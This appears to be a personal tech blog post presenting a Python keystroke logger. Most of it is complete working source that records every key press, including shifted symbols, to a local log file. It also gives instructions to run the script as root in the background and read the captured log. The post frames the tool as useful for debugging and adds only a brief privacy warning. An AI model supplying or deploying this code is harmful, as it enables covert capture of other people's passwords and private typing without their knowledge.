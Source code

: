 ```yaml
---
layout: post
title:  "Keylogger"
date:   2024-06-02 18:30:00 -0500
categories: Blog Tools
tags: blog python 
image:
  path: /assets/img/blog/keylogger/keylogger-guide.jpg
---
```


## Overview
This project is a **keystroke logger** that captures and records the keys pressed on the keyboard, logging them into a file named **keystrokes.log**. It processes each key press event to handle specific actions, such as backspace, special characters, and modifier keys (Ctrl, Shift, Alt), and writes the corresponding character to a log file.

This project is useful for purposes such as creating simple keystroke logging applications, debugging, or testing keyboard input behavior. 

## Demo
![demo](./assets/img/blog/keylogger/demo.gif)

## Source code
```bash
import keyboard

log_file = "keystrokes.log"
shift_special_chars = {
    '1': '!',
    '2': '@',
    '3': '#',
    '4': '$',
    '5': '%',
    '6': '^',
    '7': '&',
    '8': '*',
    '9': '(',
    '0': ')',
    '-': '_',
    '=': '+',
    '[': '{',
    ']': '}',
    '\\': '|',
    ';': ':',
    '\'': '"',
    ',': '<',
    '.': '>',
    '/': '?'
}

def on_key_press(event):
    if event.name == 'backspace':
        # Handle backspace by removing last character
        try:
            with open(log_file, 'r+') as f:
                content = f.read()
                if content:
                    f.seek(0) # To beginning of file
                    f.truncate()  # Clear file contents
                    f.write(content[:-1])  # Rewrite without last character
        except FileNotFoundError:
            pass

    elif event.name in ['ctrl', 'left ctrl', 'right ctrl', 'alt', 'shift'] or 'ctrl' in event.modifiers or 'alt' in event.modifiers:
        pass
    
    else:
        char = event.name
        
        if char == 'space':
            char = ' '
        elif 'shift' in event.modifiers:
            if len(char) == 1 and char.isalpha():
                char = char.upper()
            elif char in shift_special_chars:
                char = shift_special_chars[char]
        elif char == 'enter':
            char = '\n'
        elif char == 'tab':
            char = '\n /tab \n'

        with open(log_file, 'a') as f:
            f.write(char)

keyboard.on_press(on_key_press)
keyboard.wait()
```

## How to use
To run the script, using 
```bash
sudo python3 keylogger.py &
```

To view the log, using
```bash
cat keystrokes.log
```

> *Warning*: Keystroke logging can be intrusive and potentially violate privacy. So it should be used responsibly and ethically.
{: .prompt-danger }
